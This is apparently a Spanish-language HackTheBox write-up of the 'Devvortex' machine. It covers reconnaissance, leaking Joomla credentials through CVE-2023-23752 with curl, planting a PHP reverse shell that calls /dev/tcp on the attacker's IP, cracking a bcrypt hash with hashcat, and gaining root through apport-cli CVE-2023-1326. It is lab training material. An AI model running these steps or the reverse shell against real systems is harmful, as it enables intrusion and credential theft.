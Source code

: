 ```yaml
---
title: Devvortex
date: 2024-08-30
categories: [WRITEUPS, HackTheBox]
tags: []  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/dev1.png)

Buenas, en esta máquina explotaremos una web con el gestor de contenido **Joomla**, gracias a la vulnerabilidad **CVE-2023-23752**, obtendremos unas credenciales del panel de administrador, y de una base de datos. Para la escalada de privilegios explotamos **CVE-2023-1326**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que vamos a realizar es un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.11.242 -n -Pn -v
```

![picture](/assets/images/hackthebox/dev2.png){: w="600" h="300" }

Si intentamos introducir la dirección *IP* en el navegador, nos va a salir el siguiente mensaje.

![picture](/assets/images/hackthebox/dev3.png)

Eso es porque tenemos que añadir el dominio junto con la IP en el archivo "**/etc/hosts**" para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/dev4.png)

Y ahora si podemos ver el contenido de la página web.

![picture](/assets/images/hackthebox/dev5.png)

Viendo la página web no encontramos nada interesante, y realizando **Fuzzing** para encontrar entradas tampoco.

Lo siguiente será realizar **Fuzzing** para buscar subdominios.

```bash
ffuf -c -H 'Host: FUZZ.devvortex.htb' -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://devvortex.htb -fc=302
```

Y nos encuentra el subdominio "**dev**".

![picture](/assets/images/hackthebox/dev6.png)

A continuación, lo añadimos al "**/etc/hosts/**" como hemos hecho antes.

![picture](/assets/images/hackthebox/dev7.png)

Y comprobamos el contenido dominio, como podemos ver es otra página.

![picture](/assets/images/hackthebox/dev8.png)

Realizando **Fuzzing** con **Gobuster**, encontramos lo siguiente.

```bash
gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.sh,.txt,.md,.png,.jpg -b 403,404
```

![picture](/assets/images/hackthebox/dev9.png)

Si leemos el archivo "**robots.txt**" encontramos que el gestor de contenido que está corriendo por detrás es un **Joomla**.

![picture](/assets/images/hackthebox/dev10.png)

Si vemos el archivo "**README.txt**" encontramos la versión de **Joomla**.

![picture](/assets/images/hackthebox/dev11.png)

El la ruta "**/administrator**" encontramos el panel de login de **Joomla**.

![picture](/assets/images/hackthebox/dev12.png)

---

## **Explotación**

Buscando por internet si la versión de **Joomla** es vulnerable, encontramos [**CVE-2023-23752**](https://github.com/Acceis/exploit-CVE-2023-23752) por el cual podemos listar información privilegiada.

Mirando el script, vemos que lanza peticiones a la siguiente **URL**.

![picture](/assets/images/hackthebox/dev13.png)

A continuación, vamos a enviar una petición con **CURL** al dominio junto a la **URL**, para ver que nos muestra.

```bash
curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true'
```

![picture](/assets/images/hackthebox/dev14.png)

Para verlo en un mejor formato añadimos lo siguiente.

```bash
curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | jq
```

Y encontramos un usuario, una contraseña y una base de datos.

![picture](/assets/images/hackthebox/dev15.png)

Con las credenciales encontradas vamos a probar a entrar en el panel de **Joomla**.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/dev16.png)

A continuación, la idea es introducir en el archivo "**login.php**", una **Reverse Shell** para poder obtener una *Shell interactiva* en nuestra máquina local.

```php
system("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
```

![picture](/assets/images/hackthebox/dev17.png)

Antes de guardar, tendremos que ponernos en escucha con un **Listener**.

```bash
nc -nlvp 4444
```

Y obtendremos acceso a la máquina como el usuario *www-data*.

![picture](/assets/images/hackthebox/dev18.png)

---

## **Escalada de privilegios**

Probando a entrar con el usuario y contraseña de **Lewis** en la base de datos encontrada antes, obtenemos acceso.

![picture](/assets/images/hackthebox/dev19.png){: w="600" h="300" }

Mostrando las bases de datos, nos metemos en la de **joomla**.

![picture](/assets/images/hackthebox/dev20.png){: w="600" h="300" }

Y mostrando las tablas existentes en la base de datos, seleccionamos el usuario y la contraseña de la tabla ***sd4fg_users***.

![picture](/assets/images/hackthebox/dev21.png){: w="600" h="300" }

Con la herramienta **hashid** vemos que el encriptado es **bcrypt**.

A continuación, creamos un archivo con la contraseña de **Logan** cifrada dentro, y vamos a intentar crackearla con **hashcat**.

```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Y nos encuentra la contraseña en el diccionario.

![picture](/assets/images/hackthebox/dev22.png){: w="600" h="300" }

Intentamos migrar de usuario a **Logan**, y obtenemos acceso.

![picture](/assets/images/hackthebox/dev23.png)

En su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/dev24.png){: w="400" h="250" }

Listando los permisos de **SUDO** del usuario encontramos el siguiente.

**Apport** se encarga de recopilar informes de errores para depuración.

![picture](/assets/images/hackthebox/dev25.png)

Buscando en internet encuentro la vulnerabilidad [**CVE-2023-1326**](https://github.com/diego-tella/CVE-2023-1326-PoC), que nos permite obtener una Shell como **root**.

Para ello tendremos que crear un archivo "**.crash**" introduciendo lo siguiente, y ejecutarlo como nos dice el repositorio de Github.

```bash
echo 'ProblemType: hola' > report.crash
```

![picture](/assets/images/hackthebox/dev26.png){: w="500" h="200" }

Cuando pulsemos la **V** tendremos que escribir "***!/bin/bash***".

![picture](/assets/images/hackthebox/dev27.png){: w="500" h="200" }

Y obtendremos la **shell** como **root**, en su directorio personal encontramos la segunda **flag**.

![picture](/assets/images/hackthebox/dev28.png)

![picture](/assets/images/hackthebox/dev29.png){: w="600" h="300" }